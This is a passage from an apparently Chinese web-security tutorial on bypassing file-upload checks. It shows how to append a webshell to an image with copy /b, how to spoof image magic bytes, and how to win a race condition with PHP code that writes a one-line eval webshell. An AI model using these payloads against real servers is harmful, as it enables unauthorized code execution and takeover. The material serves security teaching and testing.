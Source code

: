 可以制作一个图片马进行绕过，方式如下：  
```
copy test.jpg/b+shell.php shell.jpg

copy：windows系统复制命令。
test.jpg：合法图片文件。
/b：二进制模式，表示复制过程中，合法图片的内容不被修改，原封不动地复制。
+：附加，这里表示把shell.php文件内容附加到test.jpg文件中去。
shell.php：webshell。
shell.jpg：最后生成的图片马文件。

```  
  
制作方法有很多，这里用的是copy方法，这样制作的图片马可以以图片形式正常打开，只是把webshell文件内容隐藏到了图片内容的末尾。  
  
如果只检查文件头，则可以只修改文件头为合法的即可，如下：  
```
JPG：0xFF 0xD8
PNG：0x89 0x50
GIF：0x47 0x49

```  
  
修改文件头有很多工具和插件都可以完成，也可以使用Burp拦截上传请求后，在数据包中修改，现在代码前添加两个占位符，选中后修改其十六进制为图片即可，如下图：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/KpY8uRYvbC8DjUicBgroYpZjemG4hfvv96b1a9UJvdZrV8UBl00XJGbr5qLx9FkIV1t3gHrHnGlKa51mu1rtzqQ/640?wx_fmt=png&from=appmsg "")  
### 条件竞争上传WebShell  
  
现代框架处理上传文件，一般是先放到沙盒目录，比如/upload_sandbox，用于临时存放文件和隔离上传文件，且没有执行权，文件上传到沙盒目录时还会进行随机改名处理，防止覆盖文件。接下来会检查文件的文件名、文件内容、后缀、魔数等等，如果符合要求判定为安全，才会将文件上传到真实上传目录，比如/upload，如果识别文件是危险的，则会直接删除。  
  
但是，如果没有使用任何框架，而是自定义处理上传的文件，则会出现一种情况，就是上传文件时，没有经过任何过滤就直接存放到了服务器真实上传目录，然后才对其是否合法进行检查，合法保留，不合法删掉，检查时间可能就只有几毫秒，虽然时间很短，但仍然可以通过条件竞争方式上传WebShell。  
  
操作只需要两步：  
  
一、拦截上传请求，对其进行并发，文件后缀为php，内容如下：  
```
<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[123])?>'); ?>

fopen('shell.php','w')：以写的模式打开shell.php，如果文件不存在就新建一个。
fputs：将<?php @eval($_POST[123])?>写入shell.php。

```  
  
如下图：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/KpY8uRYvbC8DjUicBgroYpZjemG4hfvv930MtsDEyMPUyGhWs17FJgxyL9rZicjHrnLEAsh8rgWe9JiaMHfAW5z4A/640?wx_fmt=png&from=appmsg "")  
  
二、拦截访问请求，对其进行并发，访问的是我们上传的test.php，上传路径可以先上传一张合法图片查看，并发过程和第一步一样，也可以修改线程，提高成功率。  
  
上传test.php到服务器后，服务器并没有及时删除（几毫秒时间），且幸运的被访问到，则执行命令，创建WebShell。  
### 上传其他恶意文件  
  
除了上传WebShell获取服务器权限外，还可以上传其他恶意文件进行攻击，如下情况：  
  